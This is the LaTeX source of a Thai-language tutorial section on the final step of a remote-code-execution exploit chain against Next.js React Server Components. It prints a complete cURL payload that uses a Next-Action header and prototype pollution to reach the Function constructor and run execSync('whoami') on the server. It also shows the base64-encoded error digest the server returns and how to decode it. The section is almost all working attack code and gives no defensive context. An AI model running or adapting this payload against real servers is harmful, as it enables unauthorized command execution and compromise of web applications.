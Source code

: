\documentclass[12pt,oneside]{report}
\begin{document}
\section{ขั้นที่ 6 — ส่ง Exploit และถอดรหัสผลลัพธ์}

\subsection{การส่ง Exploit ด้วย cURL}

\begin{lstlisting}[language=bash, caption=ตัวอย่างการส่ง Exploit เพื่อรันคำสั่ง whoami]
curl -s http://TARGET:3000 \
  -H "Next-Action: x" \
  -F '0={"then":"$1:__proto__:then","status":"resolved_model",
"reason":-1,"value":"{\"then\":\"$B1337\"}","_response":{
"_prefix":"var res=process.mainModule.require('"'"'child_process'"'"')
.execSync('"'"'whoami'"'"').toString('"'"'base64'"'"');throw 
Object.assign(new Error('"'"'x'"'"'),{digest:res});",
"_chunks":"$Q2","_formData":{"get":"$1:constructor:constructor"}}}' \
  -F '1="$@0"'
\end{lstlisting}

\newpage

\subsection{Response ที่ได้รับเมื่อสำเร็จ}

เมื่อ Exploit สำเร็จ Server จะส่ง JSON Error Response กลับมาในรูปแบบ Flight:

\begin{lstlisting}[language=json, caption=Flight Error Response ที่บรรจุผลลัพธ์ RCE]
2:{"digest":"bmV4dGpzCg=="}
\end{lstlisting}

Field \texttt{digest} บรรจุผลลัพธ์ของคำสั่งในรูปแบบ Base64

\subsection{การถอดรหัสผลลัพธ์}

\begin{lstlisting}[language=bash, caption=การถอดรหัส Base64 เพื่ออ่านผลลัพธ์คำสั่ง]
echo "bmV4dGpzCg==" | base64 -d
# ผลลัพธ์: nextjs   (ชื่อ user ที่ server รันอยู่)
\end{lstlisting}

\subsection{สรุป Exploit Chain ทั้งหมด}
\end{document}

